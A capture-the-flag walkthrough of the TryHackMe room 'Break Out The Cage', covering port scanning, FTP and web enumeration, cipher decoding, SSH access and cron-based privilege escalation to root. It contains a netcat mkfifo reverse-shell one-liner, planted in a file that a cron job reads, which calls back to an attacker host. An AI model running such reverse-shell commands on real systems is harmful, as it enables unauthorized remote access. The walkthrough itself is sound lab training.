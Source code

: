 ```yaml
---
layout: post
title: "Break Out The Cage"
date: 2022-10-21
categories: [Tryhackme, Easy-THM]
tags: [ftp, base64, Vigenere-cipher, ffuf, pspy64, python, email]
image: ../../assets/img/posts/breakoutthecage1.png 

---
```


## Description

Help Cage bring back his acting career and investigate the nefarious goings on of his agent!

|**Room**|[Break Out The Cage](https://tryhackme.com/room/breakoutthecage1)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Magna](https://tryhackme.com/p/Magna)|

---

Starting off with deploying the machine and quickly scanning the open ports with rustscan,

```bash
rustscan -a 10.10.215.181 --ulimit 5000
```

![image](https://user-images.githubusercontent.com/67465230/187351008-5f1f1750-ca50-40d1-9e36-e68b72569c6a.png)

We got the open ports and now we can scan them in detail using nmap,

```bash
nmap -sV -sC -p21,22,80 10.10.215.181 -oN nmap.log
```

![image](https://user-images.githubusercontent.com/67465230/187351043-777108cc-c11b-4d30-a97b-fe2ea29d706a.png)

Result scan shows that port 21 is running ftp service, port 22 is running ssh service, port 80 is running apache webserver. Let's enumerate ftp service.

Using ftp client tool, we can access ftp service running on the machine,

```bash
ftp 10.10.215.181
```

![image](https://user-images.githubusercontent.com/67465230/187351076-5c62fd73-0fcb-4eec-953f-2fe621ba804b.png)

Enumerate directory and there is a file lying around,

![image](https://user-images.githubusercontent.com/67465230/187351106-255caea8-6af8-4324-b4cd-7c6e9de18ea0.png)

We can download this file on our system,

```bash
get dad_tasks
```

Reading the file and I got the idea that this string is encoded with base64,

![image](https://user-images.githubusercontent.com/67465230/187351131-65431734-b6b6-451b-a3a6-38e89b45bff0.png)

So we can try to decode this string,

```bash
echo <base64-here> | base64 -d
```

![image](https://user-images.githubusercontent.com/67465230/187351163-6f1b9a6a-e635-476a-a5c6-e8122af61470.png)

Looks like this is another encoded string we got.

Visit [Cipher Identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) and pasting the encoded string here and after analysis, we now know that this is a Vigenere Cipher,

![image](https://user-images.githubusercontent.com/67465230/187351202-49e1a7a8-4b9c-4938-bde0-3087abb605b7.png)

Let's visit http://10.10.215.181 and we landed on a page which has cage pictures,

![image](https://user-images.githubusercontent.com/67465230/187351254-13ecfe37-6a70-4b0b-9cb3-b7f74ef9cf10.png)

Now, we can try to fuzz directories using `ffuf` tool,

```bash
ffuf -u http://10.10.215.181/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200,301 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/187351314-c7fda3a7-fadc-4a90-938c-813aa29e21a2.png)

we got some directories but there is a unique directory named auditions.

Navigating to http://10.10.215.181/auditions,

![image](https://user-images.githubusercontent.com/67465230/187351337-fa6a0955-89cd-4f77-82ac-13f50bce2241.png)

there is a audio file. 

So let's download it using `wget` command,

```bash
wget http://10.10.215.181/auditions/must_practice_corrupt_file.mp3
```

Now, we can use `sonic-visualizer` tool to get the text  from audio file,

![image](https://user-images.githubusercontent.com/67465230/187351381-40bb4014-6911-442e-b568-658993cfa7c9.png)

Now that we got the key, *namelesstwo*, we can paste this key and get the result,

![image](https://user-images.githubusercontent.com/67465230/187351483-cd80ebdb-aec3-4b86-ab1c-14032c92357e.png)

we got the weston user password.

We can try to login using weston user and password,

```bash
ssh weston@10.10.215.181
```

![image](https://user-images.githubusercontent.com/67465230/187351520-c5fb760e-a941-4fa7-bdfe-58cedfef5ccd.png)

and we get in!!

After some enumeration, there is nothing I found unusual on the system so I decided to run [pspy64](https://github.com/DominicBreuker/pspy) on this system,

```bash
./pspy64 -pf -i 1000
```

![image](https://user-images.githubusercontent.com/67465230/187351592-0d6e090a-7b62-4831-8062-70f7ad5ab36a.png)

and we will see that cronjob is running silently but it's not showing on the surface and the file which is running has the path */opt/.dads_scripts/spread_the_quotes.py*.

First checking the owner of this python file, which is cage,

![image](https://user-images.githubusercontent.com/67465230/187351637-903b80d3-3e8c-4f64-b741-721fb32d0fcc.png)

so we can elevate our privileges to cage user.

Reading the content of the file,

![image](https://user-images.githubusercontent.com/67465230/187351713-8dec88da-e350-44d7-8205-5e1a107429d2.png)

We can see that it reads the`.quotes`file and selects a random line from it. Which is then displayed to all the users via the system command `wall`.

We can use one-liner netcat listener to catch a reverse shell,

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.2.131 4444 >/tmp/f" > .quotes
```

after waiting for a moment, we will become cage user. We will get a shell but it will be a under-privilege one so we will need to improve it using sequence of these commands,

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
stty rows 38 columns 116
```

Enumerating directory and there we find a file named Super_Duper_Checklist,

![image](https://user-images.githubusercontent.com/67465230/187351754-6f90c2e5-7772-4702-bc40-8c57d5c4d036.png)

Reading the Super_Duper_Checklist file, 

![image](https://user-images.githubusercontent.com/67465230/187351787-3c590e60-eafe-4fae-abf5-34ce6115b649.png)

we got the flag. 

Now, after enumerating directory, I found that there is a directory named email_backup and there are 3 files which lie around there,

![image](https://user-images.githubusercontent.com/67465230/187351837-108f1634-991c-4bd0-bdd7-65f17638c096.png)

After reading the 3rd email file, we got a strings which is encoded and the user cage is emphasizing on the word FACE.

![image](https://user-images.githubusercontent.com/67465230/197141311-43106367-dcb1-4134-a7a9-762ed9e7feff.png)

So let's use this keyword to decode the string we got,

![image](https://user-images.githubusercontent.com/67465230/197141426-a5a4b309-fbf4-4f6d-9ea0-160b577befdc.png)

We got the password.

Now, we can try to switch user to root user, but it didn't work. The password seems correct but it didn't work.

![image](https://user-images.githubusercontent.com/67465230/197141520-c5a3a6c5-cacc-4a78-ac9d-931286b18414.png)

So I try to switch user from weston user shell,

```bash
su root
```

![image](https://user-images.githubusercontent.com/67465230/187352080-85ce280d-fcb4-4069-9829-9f52f7a5e431.png)

and we become root.